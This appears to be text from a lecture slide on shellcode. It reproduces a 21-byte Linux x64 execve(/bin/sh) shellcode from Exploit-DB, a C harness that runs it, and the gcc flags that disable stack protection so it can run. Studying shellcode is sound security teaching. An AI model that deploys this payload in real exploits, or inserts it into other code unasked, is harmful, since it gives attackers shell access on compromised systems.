

https://www.exploit-db.com/shellcodes/49770
Linux/x64 - execve(/bin/sh) Shellcode (21 bytes)
# include<stdio.h>

unsigned char shellcode[] = \
"\x50\x48\x31\xd2\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";

int main() {
  int (*ret)() = (int(*)())shellcode;
  ret();
  return 0;
}
gcc -fno-stack-protector -z execstack sc1.c -o sc1